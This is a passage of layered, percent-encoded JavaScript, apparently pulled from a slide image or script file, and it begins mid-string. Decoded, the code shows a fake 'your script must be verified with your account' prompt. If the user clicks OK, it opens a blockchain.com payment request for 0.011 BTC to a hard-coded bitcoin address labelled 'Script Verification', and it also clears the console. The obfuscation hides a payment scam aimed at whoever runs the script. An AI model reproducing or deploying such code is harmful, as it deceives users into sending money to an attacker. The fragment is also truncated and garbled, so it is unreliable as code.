

%36%31%25%37%30%25%37%30%25%36%31%25%37%32%25%36%35%25%36%45%25%37%34%25%32%30%25%3
6%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%33%41%25%32%32%27%29%
29%2C%20%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%37%25%33%31%25%34%36%25%35%38%25%36%38%25%34%61%25%35%35%25%33%38%2
5%36%61%25%33%34%25%33%31%25%37%32%25%33%38%25%34%65%25%35%32%25%34%36%25%33%33%25%
33%31%25%34%65%25%34%65%25%35%33%25%37%31%25%36%39%25%34%64%25%36%35%25%37%61%25%35
%37%25%37%32%25%37%34%25%35%34%25%35%35%25%34%34%25%37%37%25%37%61%25%34%65%25%32%3  7%27%29%29%29%29%3B%20%76%61%72%20%77%38%75%67%6F%20%3D%20%77%69%6E%64%6F%77%2E
%63%6F%6E%66%69%72%6D%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F
%6E%65%6E
%74%28%27%25%32%32%25%35%39%25%36%66%25%37%35%25%37%32%25%32%30%25%37%33%25%36%33%2
5%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%36%64%25%37%35%25%37%33%25%37%34%25%
32%30%25%36%32%25%36%35%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%36
%39%25%36%35%25%36%34%25%32%30%25%37%37%25%36%39%25%37%34%25%36%38%25%32%30%25%37%3
9%25%36%66%25%37%35%25%37%32%25%32%30%25%36%31%25%36%33%25%36%33%25%36%66%25%37%35%
25%36%65%25%37%34%25%32%30%25%36%32%25%36%35%25%36%36%25%36%66%25%37%32%25%36%35%25
%32%30%25%37%39%25%36%66%25%37%35%25%32%30%25%36%33%25%36%31%25%36%65%25%32%30%25%3
7%34%25%36%31%25%36%62%25%36%35%25%32%30%25%37%34%25%36%38%25%36%39%25%37%33%25%32%
30%25%36%31%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%32%65%25%32%30%25%34%33
%25%36%63%25%36%39%25%36%33%25%36%62%25%32%30%25%34%66%25%34%62%25%32%30%25%37%34%2
5%36%66%25%32%30%25%35%36%25%36%35%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%
35%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%32%27%29%29%29%3B
%20%69%66%20%28%77%38%75%67%6F%29%20%7B%20%77%69%6E%64%6F%77%2E%6F%70%65%6E
%28%20%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%41%25%32%46%2
5%32%46%25%37%37%25%37%37%25%37%37%25%32%45%25%36%32%25%36%43%25%36%46%25%36%33%25%
36%42%25%36%33%25%36%38%25%36%31%25%36%39%25%36%45%25%32%45%25%36%33%25%36%46%25%36
%44%25%32%46%25%36%32%25%37%34%25%36%33%25%32%46%25%37%30%25%36%31%25%37%39%25%36%4
4%25%36%35%25%36%45%25%37%34%25%35%46%25%37%32%25%36%35%25%37%31%25%37%35%25%36%35%
25%37%33%25%37%34%25%33%46%25%36%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25
%37%33%25%33%44%25%33%31%25%34%36%25%35%38%25%36%38%25%34%41%25%35%35%25%33%38%25%3
6%41%25%33%34%25%33%31%25%37%32%25%33%38%25%34%45%25%35%32%25%34%36%25%33%33%25%33%
31%25%34%45%25%34%45%25%35%33%25%37%31%25%36%39%25%34%44%25%36%35%25%37%41%25%35%37
%25%37%32%25%37%34%25%35%34%25%35%35%25%34%34%25%37%37%25%37%41%25%34%45%25%32%36%2
5%36%44%25%36%35%25%37%33%25%37%33%25%36%31%25%36%37%25%36%35%25%33%44%25%35%33%25%
36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%35%25%33%32%25%33%30%25%35%36%25%36
%35%25%37%32%25%36%39%25%36%36%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%4
6%25%36%45%25%32%36%25%36%31%25%36%44%25%36%46%25%37%35%25%36%45%25%37%34%25%33%44%
25%33%30%25%32%45%25%33%30%25%33%31%25%33%31%25%32%37%27%29%29%2C%20%65%76%61%6C
%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%37%25%35%66%25%36%32%25%36%63%25%36%31%25%36%65%25%36%62%25%32%37%2  7%29%29%20%29%3B%20%7D%20%65%6C%73%65%20%7B%20%61%6C%65%72%74%28%65%76%61%6C
%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%32%25%35%30%25%36%63%25%36%35%25%36%31%25%37%33%25%36%35%25%32%30%2
5%36%32%25%36%31%25%36%33%25%36%62%25%32%30%25%37%34%25%36%66%25%32%30%25%37%36%25%
36%35%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%37%33%25%36%33%25%37%32%25%36
%39%25%37%30%25%37%34%25%32%65%25%32%32%27%29%29%20%29%3B%20%7D%20%63%6F%6E%73%6F
%6C%65%2E%63%6C%65%61%72%28%29%3B%63%6F%6E%73%6F%6C%65%2E%6C%6F%67%28%65%76%61%6C
%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E
%74%28%27%25%32%37%25%35%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%2
5%36%65%25%36%66%25%37%34%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%
36%39%25%36%35%25%36%34%25%32%31%25%32%37%27%29%29%29%3B%20'));